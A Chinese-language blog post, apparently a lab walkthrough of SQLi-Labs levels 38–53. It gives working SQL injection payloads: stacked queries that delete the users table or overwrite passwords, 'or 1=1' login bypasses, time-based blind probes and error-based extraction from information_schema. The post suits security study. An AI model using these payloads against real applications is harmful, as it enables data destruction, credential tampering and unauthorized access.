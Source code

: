 ```yaml
---
layout: post
title: "「SQL注入入门篇」SQL注入（十四）"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-11-19 12:00:00
author:     "许大仙"
tags:
    - web安全
---
```


[audio mp3="http://chiahao.top/wp-content/uploads/2016/11/花たん-ロミオとシンデレラ.mp3"][/audio]

<h2>&gt; Background Music: ロミオとシンデレラ</h2>
<h2>Less-38</h2>
<h3>Stacked Query</h3>
<a href="http://www.sqlinjection.net/stacked-queries">参考资料</a>

一种全新的思路，除了完成闭合去查询以外，还可以去通过闭合分号来执行其他的SQL命令

<img src="http://oc42vgpoj.bkt.clouddn.com/Less38_stacked1_res.png" />

<pre class="lang:tsql decode:true">?id=0'; delete from users +--+</pre>
<img src="http://oc42vgpoj.bkt.clouddn.com/Less38_stacked2_res.png" />

堆叠查询是指在一次查询过程中执行多条SQL指令，我们可以通过这一点去混入我们想要执行的恶意指令，从而做到远比查询数据更多的事情。

以往我们利用UNION语句的攻击仅仅局限于了SELECT语句，但利用这种方式我们就可以去执行更多的语句，从一个简单的查询语句获取更多控制权限。

<h3>局限</h3>
<ol>
<li>堆叠查询并不总是适用。大多数情况下由于API或者数据库引擎不支持，我们没办法进行这种攻击。而且我们如果没有足够的执行权限，就不能对数据进行修改，或者其他手段的攻击。</li>
</ol>

<table>
<thead>
<tr>
  <th align="center">Database</th>
  <th align="center">    API   </th>
  <th align="center">    Result    </th>
</tr>
</thead>
<tbody>
<tr>
  <td align="center">  MySQL  </td>
  <td align="center">    PHP   </td>
  <td align="center">Not Supported</td>
</tr>
<tr>
  <td align="center">   SQL   </td>
  <td align="center">  Any API </td>
  <td align="center">   Supported  </td>
</tr>
<tr>
  <td align="center">  Oracle </td>
  <td align="center">  Any API </td>
  <td align="center">Not Supported</td>
</tr>
<tr>
  <td align="center">  MySQL  </td>
  <td align="center">Other API</td>
  <td align="center">   Supported  </td>
</tr>
</tbody>
</table>

<ol>
<li>查询结果可能无法获取。如果只是需要去挖掘数据的话，还是推荐用UNION语句，因为即使我们能够执行两条查询语句，程序往往被设计成只返回一条语句的结果，我们需要的数据可能没办法挖掘出来。</li>
</ol>

<h3>修改数据</h3>
<pre class="lang:tsql decode:true">?id=1'; update users set password='You are hacked' where username='Dumb' +--+</pre>
比如我们可以通过语句来修改密码数据，但这种攻击方法需要建立在我们掌握了这个数据库足够信息的前提下，比如已经获取到了这个数据库名  ，表名，列名等。

<h3>调用存储过程</h3>
待填

<h2>Less-39</h2>
整数型，同理

<pre class="lang:tsql decode:true ">?id=1 ; update users set password='You are hacked' where username='Dumb' +--+</pre>
<h2>Less-40</h2>
盲注，闭合注意一下

<pre class="lang:tsql decode:true ">?id=1'); update users set password='hellooooo' where username='Dumb'  +--+</pre>
<h2>Less-41</h2>
盲注，同40，不过是整数型

<h2>Less-42</h2>
POST型的注入，进去以后发现可以Create New User或者Change Passwd，但是作者显而易见是想让你"Hack your way in"

<h3>Fuzz</h3>
用户名处没有注入点，在密码处注入成功，万能密码绕过登录框

本来以为重点在登录之后，结果发现登陆进去以后是修改密码的功能，而且都被过滤掉了。

原来重点在登录密码的那个位置，可以利用他没有过滤这点去进行堆叠查询，创建新表或者执行其他命令

<h3>Payload</h3>
login_user=123&amp;login_password=1'; create table testttt like users # &amp;mysubmit=Login

<img src="http://oc42vgpoj.bkt.clouddn.com/Less42_puzzled.png" />
本来在想会不会因为前面的登录失败不会执行后面的建表命令，但测试结果表明即使前面失败了，后面的也照常执行了。想想也对，SQL会把这些命令都带进去，即使前面密码是错的后面也会带入执行

<h2>Less-43</h2>
<h3>Fuzz</h3>
随便输个引号报错了，发现好像是用引号加括号闭合的，我们构造一下

<img src="http://oc42vgpoj.bkt.clouddn.com/Less43_fuzz.png" />

<pre class="lang:tsql decode:true ">login_user=123&amp;login_password=123%27) or 1=1 # &amp;mysubmit=Login</pre>
成功绕过登陆判断

后面就同Less-42了

<pre class="lang:tsql decode:true">login_user=123&amp;login_password=123%27); create table less43 like users # &amp;mysubmit=Login</pre>
<img src="http://oc42vgpoj.bkt.clouddn.com/Less43_res.png" />

<h2>Less-44</h2>
同Less-43，换成了盲注

<pre class="lang:tsql decode:true ">login_user=123&amp;login_password=123%27) or sleep(3) # &amp;mysubmit=Login</pre>
判断闭合，唉或者直接用上题的技巧也可以哦

<h2>Less-45</h2>
<pre class="lang:tsql decode:true ">login_user=123&amp;login_password=123') or 1=1 # &amp;mysubmit=Login</pre>
<h2>Less-46</h2>
这次玩法变了，需要给sort参数赋予一个数值，返回一个表格。sort参数应该是决定排序方法的，因为不同值返回的顺序不同

Order by注入

<h3>Fuzz</h3>
据说?sort=1+desc和?sort=1+acs两个返回结果不同的话会存在注入，desc是倒序排列，acs是正序排列。原理待分析

<h3>Payload</h3>
<pre class="lang:tsql decode:true ">?sort=1' and (ascii(substr((select database()) ,1,1))) = 115 and if(1=1, sleep(1), null)</pre>
<h2>Less-47</h2>
其实46和47也可以用报错注入啊…

<pre class="lang:tsql decode:true">?sort=1' and (select 1 from (select count(*),
concat(0x3a,0x3a,(select table_name from information_schema.tables limit 1,1),
0x3a,0x3a,floor(rand(0)*2))name from information_schema.tables group by name)x) --+
</pre>

<h2>Less-48 &amp; Less-49</h2>
换成盲注了

<pre class="lang:tsql decode:true ">?sort=1 and sleep(1) +--+

?sort=1' and sleep(1) +--+
</pre>

<h2>Less-50 &amp; Less-51</h2>
堆叠查询

<pre class="lang:tsql decode:true">?sort=1; delete from users +--+
</pre>

<h2>Less-52 &amp; Less-53</h2>
换成盲注了

<pre class="lang:tsql decode:true ">?sort=1 and sleep(1) +--+

?sort=1' and sleep(1) +--+</pre>

<hr />
SQLi-Labs系列完结！

庆祝撒花！

真正刷了一遍收获还是很大的，但还是会觉得还有很多好玩的技巧可以掌握。以后再说吧